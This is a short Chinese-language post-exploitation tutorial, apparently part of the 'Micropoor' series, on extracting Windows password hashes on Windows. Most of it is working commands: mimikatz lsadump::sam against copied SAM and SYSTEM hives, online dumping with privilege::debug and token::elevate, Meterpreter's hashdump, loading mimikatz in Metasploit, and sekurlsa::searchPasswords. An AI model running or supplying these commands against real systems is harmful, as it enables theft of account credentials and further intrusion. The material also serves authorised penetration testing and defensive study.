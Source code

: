 上一季下载sys.hiv,sam.hiv,security.hiv文件后，以Linux下为背景来离线提取hash，本季补充以windows为背景离线提取hash。

mimikatz 2.0 二进制文件下载地址：  
https://github.com/gentilkiwi/mimikatz/releases/latest  
切到当下目录（注意X86,X64位）

mimikatz离线导hash命令：  
```bash
mimikatz.exe "lsadump::sam /system:sys.hiv /sam:sam.hiv" exit
```

![](/img/92ae7706ceec3aa04bce07e08ced2e16.jpg)

mimikatz在线导hash命令：

```bash
mimikatz.exe "log Micropoor.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

![](/img/88ab6bceca9f6a733b768b1ccfefe688.jpg)

当然关于提取目标机的hash，msf也内置了离线提取与在线提取hash。

meterpreter下hashdump命令来提取hash（注意当前权限）  
![](/img/79e0ae6ee3518126f0c11872201c70fb.jpg)  

![](/img/5808e7c6ac005d96f8289f994db6e45e.jpg)

msf同时也内置了mimikatz，meterpreter执行load mimikatz即可加载该插件。**（这里一定要注意，msf默认调用于payload位数相同的mimikatz）**  

![](/img/3535a826c17c149f290fd79bd2fe865a.jpg)

直接执行kerberos即可。  

![](/img/0134f11ff22c5d4450f173c8e5ce9717.jpg)

当然有些情况下，payload位数无误，权限无误，依然无法提取目标机的密码相关。需要调用mimikatz自定义命令：
```bash
mimikatz_command -f sekurlsa::searchPasswords
```
![](/img/ae5d3f87f6df54f4a42bfa231e5847c0.jpg)

>   Micropoor

